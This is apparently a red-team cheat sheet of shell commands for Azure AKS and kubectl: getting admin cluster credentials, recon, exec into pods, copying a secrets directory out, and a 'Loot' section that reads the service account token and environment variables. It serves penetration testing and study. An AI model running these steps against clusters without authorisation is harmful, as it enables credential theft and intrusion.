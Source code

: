 # AKS
```Shell
az aks list
az aks get-credentials --admin -g <ResourceGroup> -n <ClusterName> --subscription <SubID>
```

---    
# Kubectl
## Kubectl - Recon
```Shell
kubectl api-resources
kubectl get -h #😉
kubectl cluster-info
# Ultimate dump of data on the cluster: kubectl cluster-info dump
kubectl get nodes --all-namespaces -o wide
kubectl get namespaces
kubectl get deployments -A
kubectl get pods --all-namespaces
kubectl get services --all-namespaces
# List containers running in pod (usually 1, but there can be more in there 😉:
kubectl get pods <Pod> -n <Namespace> -o jsonpath='{.spec.containers[*].name}'
# Get juicy data out of the pod:
kubectl describe pod <Pod> -n <Namespace>
# Search for Containers only
kubectl describe pod <Pod> -n <Namespace> | grep "Containers" -A 15
```

## Kubectl - Execution
```Shell
kubectl exec <Pod> -it -- /bin/bash
# Sometimes bash is not available
kubectl exec <Pod> -it -- /bin/sh
# Exec in pod in a given namespace
kubectl exec <Pod> -n <Namespace> -it -- /bin/bash
# Exec in a pod, in a given namespace with multiple containers
kubectl exec <Pod> -n <Namespace> -c <ContainerName> -it -- /bin/bash
```

## Kubectl - Copy files over
### Copy files to a pod
```Shell
kubectl cp /local/file <Namespace>/<Pod>:/tmp/file
# To a specific  container
kubectl cp /local/file <Namespace>/<Pod>:/tmp/file -c <ContainerName>
```
### Copy files from a pod down to your machine
```Shell
# tar the directory with this command in the target container:
tar tar cvfz /tmp/directory.tar.gz -C / secrets/allTheSecrets/

kubectl cp <Namespace>/<Pod>:tmp/directory.tar.gz /tmp/directory.tar.gz
tar xvzf /tmp/directory.tar.gz
```

## Kubectl -  Loot
```Shell
env
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

---     
# Talking to other APIs + Services from Pod/Container
```Shell
wget -O- https://10.0.1.2:443 --no-check-certificate
```

---    
